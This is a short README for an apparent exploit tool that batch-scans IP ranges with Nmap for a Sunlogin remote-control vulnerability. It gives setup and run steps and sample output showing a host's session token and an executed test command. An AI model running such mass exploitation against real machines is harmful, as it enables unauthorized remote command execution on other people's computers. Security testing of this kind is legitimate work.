 # sunlogin_exp_for_tututu
# 基于NMAP的向日葵漏洞自动化批量扫描工具

## 1. 需要您安装NMAP，https://nmap.org/download。

## 2. 需要更新安装Python模块(请使用Python3)
    pip install requests
    pip install python-nmap
    
## 3. 在test.txt中放入地址段(仅支持IP和地址段哦);每个IP或者地址段占一行哦。

## 4. 执行Python sunlogin_exp_for_tututu.py

执行情况:
```
(管理员权限启动CMD.exe)
PS D:\> python .\sunlogin_exp_for_tututu.py
2022-07-10 10:52:21-172.17.8.0/23
[+]host:http://172.17.8.99:61127 cid:hHdXNeZi8NrH5cOND9JVsawf5lysf97y cmd:"vulnerable!" response:vulnerable! 
```
